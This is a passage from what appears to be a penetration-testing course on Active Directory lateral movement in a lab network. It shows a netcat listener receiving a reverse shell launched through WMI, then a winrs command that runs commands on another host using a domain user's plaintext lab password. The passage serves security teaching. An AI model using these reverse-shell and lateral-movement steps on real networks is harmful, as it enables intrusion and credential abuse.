 ```

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

> Listing 8 - Executing the WMI payload with base64 reverse shell

From the output in Listing 8, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```

> Listing 9 - Executing the WMI payload with base64 reverse shell

Nice! We indeed managed to move laterally and gain privileges as the *jen* domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the [*WS-Management*](https://en.wikipedia.org/wiki/WS-Management) protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as [*winrs*](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) (Windows Remote Shell).

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the *\-r:* argument and the username with *\-u:* and password with *\-p*. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as *jeff* on CLIENT74 and provide *jen*'s credentials as command arguments.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

> Listing 10 - Executing commands remotely via WinRS


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname